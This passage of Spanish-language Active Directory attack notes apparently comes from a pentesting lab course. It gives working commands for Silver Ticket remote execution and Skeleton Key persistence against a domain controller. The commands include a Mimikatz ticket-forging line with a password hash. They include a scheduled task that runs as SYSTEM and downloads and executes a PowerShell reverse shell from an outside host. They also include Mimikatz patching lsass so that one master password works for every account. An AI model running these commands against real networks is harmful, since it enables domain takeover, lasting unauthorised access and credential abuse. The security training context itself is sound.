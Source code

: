 ![/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%203.png](/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%203.png)

Hay varias formas de conseguir RCE utilizando Silver Tickets:

Crea un ticket plateado para el SPN HOST que nos permitirá programar una tarea en el target:

`Invoke-Mimikatz -Command '"kerberos::golden 
/User:Administrator /domain:us.techcorp.local /sid:S-1-
5-21-210670787-2521448726-163245708 /target:usdc.us.techcorp.local /service:HOST
/rc4:f4492105cb24a843356945e45402073e /id:500 
/groups:512 /startoffset:0 /endin:600 /renewmax:10080 
/ptt"'`

Ejecuta la tarea:

`schtasks /create /S us-dc.us.techcorp.local /SC Weekly
/RU "NT Authority\SYSTEM" /TN "STCheck" /TR
"powershell.exe -c 'iex (New-Object 
Net.WebClient).DownloadString(''http://192.168.100.X:808
0/Invoke-PowerShellTcp.ps1''')'"`

`schtasks /Run /S us-dc.us.techcorp.local /TN "STCheck"`

**Domain Persistence - Skeleton Key**

- La llave maestra es una técnica de persistencia donde es posible parchear un controlador de dominio (proceso lsass) para que permita el acceso como cualquier usuario con una sola contraseña.
- Dell Secureworks descubrió el ataque y lo utilizó en un malware llamado
el malware Skeleton Key.
- Todos los métodos conocidos públicamente NO son persistentes en los reinicios.
- Una vez más, mimikatz al rescate.

Utilice el siguiente comando para inyectar una clave maestra (la contraseña sería mimikatz) en un controlador de dominio de su elección. Se requieren privilegios de DA:

`Invoke-Mimikatz -Command '"privilege::debug" 
"misc::skeleton"' -ComputerName us-dc`

Ahora es posible acceder a cualquier maquina con un usuario valido y la contraseña de mimikatz:

`Enter-PSSession –Computername us-dc –credential
us\Administrator`

Puede acceder a otras máquinas, siempre y cuando se autentiquen con el DC que se ha parcheado y el DC no se reinicia.

En caso de que lsass se esté ejecutando como un proceso protegido, todavía podemos usar Skeleton Key pero necesita el controlador mimikatz (mimidriv.sys) en el disco del DC de destino
